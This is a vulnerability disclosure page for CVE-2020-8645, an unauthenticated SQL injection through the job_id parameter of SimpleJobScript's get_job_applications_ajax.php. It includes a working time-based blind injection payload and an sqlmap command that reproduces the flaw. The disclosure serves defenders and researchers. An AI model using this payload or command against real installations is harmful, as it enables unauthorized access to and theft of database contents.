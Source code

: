 ```yaml
---
cve: "CVE-2020-8645"
slug: "CVE-2020-8645: Unauthenticated SQL injection in SimpleJobScript"
title: "Unauthenticated SQL injection in SimpleJobScript"
images: [/images/cve-mitre.png]
date: 2020-02-05
tags:
- cve
- sql injection
---
```

An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8645
- public announcement: https://github.com/niteosoft/simplejobscript/issues/9

<hr />

**Description:**  
An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.

**Details:**  
File: `/_lib/class.JobApplication.php`  
Function: `getJobApplicationsByJobId()`  
URL: `/get_job_applications_ajax.php`  
Parameter: `job_id`  

**Payload:**  
```
POST /get_job_applications_ajax.php
job_id=493+AND+(SELECT+9069+FROM+(SELECT(SLEEP(5)))Ufmy)
```

**Steps to Reproduce:**  
```
$ sqlmap --batch --threads=10 --dbms=mysql -u "http://local.simplejobscript.net/get_job_applications_ajax.php" --data="job_id=493" --banner
```

**PoC:**  
![cve-2020-8645 SimpleJobScript sqli](/images/cve-2020-8645.png)
